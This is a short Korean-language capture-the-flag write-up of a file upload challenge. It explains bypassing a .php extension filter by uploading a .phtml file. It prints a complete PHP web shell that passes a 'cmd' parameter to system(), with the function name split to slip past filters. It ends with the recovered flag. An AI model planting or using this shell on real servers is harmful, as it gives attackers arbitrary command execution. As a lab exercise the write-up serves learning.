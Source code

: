 # File Upload
사이트에 접속하면 "flag is at flag.php" 라고 나온다.
Flag는 flag.php에 있나보다.

파일 업로드 취약점이 있는 거 같은데 웹쉘을 만들어서 풀어야 될 거 같다.

소스코드를 봤을 때 php 확장자를 필터링하므로 .phtml로 우회하였다.

```php
<html>
    <meta http-equiv="Content-Type" content="text/html; charset=EUC-KR" />
    <body>
        <form method="get">
            <input type="text" name="cmd" size="50">
            <input type="submit" value="Run">
        </form>
        <pre>
            <?php
            if($_GET['cmd'])
            {
                $sy = "sy"."stem";
                $result = $sy($_GET['cmd']);
                echo "{$result}";
            }
            ?>
        </pre>
    </body>
</html>
```

.phtml 파일로 작성하여 웹쉘을 만들고, flag.php를 불러왔다.

# Flag
flag{webshell_in_a_nutshell}